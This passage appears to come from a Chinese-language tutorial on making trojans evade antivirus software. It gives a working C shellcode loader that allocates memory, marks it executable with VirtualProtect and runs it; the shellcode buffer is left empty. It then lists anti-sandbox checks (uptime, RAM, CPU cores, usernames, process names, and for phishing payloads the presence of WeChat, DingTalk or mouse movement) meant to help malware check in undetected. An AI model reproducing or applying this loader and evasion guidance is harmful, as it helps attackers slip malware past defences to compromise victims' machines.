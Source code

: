 -   **lpAddress：指向要变更保护属性的地址起始位置**
-   **dwSize：要更改其访问保护属性的区域的大小**
-   **flNewProtect：更改的内存属性**
-   **lpflOldProtect：内存原始属性保存地址**

**代码如下：**

```php
#include <Windows.h>

int main() {
    int shellcode_size = 0; // shellcode 长度
    BOOL pt;
    DWORD oldProtect;
    unsigned char buf[] = {  };
    shellcode_size = sizeof(buf);
    LPVOID shellcode;
    shellcode = VirtualAlloc(NULL, shellcode_size, MEM_COMMIT, 0x04);
    CopyMemory(shellcode, buf, shellcode_size);
    pt = VirtualProtect(shellcode, shellcode_size, 0x20, &oldProtect);
    ((void(*)())shellcode)();
}
```

由于篇幅有限，APC 注入等涉及到 windows 异常处理机制，这里暂不介绍，有兴趣可以自行了解

### 3.反沙箱

反沙箱是木马免杀中极为重要的一环

为什么这么说呢？

**所有的杀软本地都会有一个内置的沙箱，当我们想要运行一个陌生的 exe 时，都会在沙箱中模拟运行，所有木马能否上线的关键点在于反沙箱**

##### 那么沙箱查杀的是什么呢？

1.静态查杀

如何处理？

做好 源代码的混淆 资源文件 动态解析 API

2.动态查杀

当你的 exe 在运行是**修改注册表实现自启动**或者是**释放某些文件**亦或是**添加用户** ,此时沙箱会检测此类操作，

**然后报读**

##### 我们要写反沙箱首先要了解沙箱的特性是什么：

沙箱不是真实的环境，而是被虚拟话出来的

1.常规的反沙箱

我们可以通过延迟执行、开机时间、物理内存、CPU 核心数，文件名、磁盘大小、500M 内存 0 填充、用户名、进程名去判断是否是在沙箱的环境中，如果是在沙箱的环境，那就退出

2.钓鱼的如何写反沙箱

或者是检测当前环境是否有微信、钉钉、或者鼠标是否移动来判断
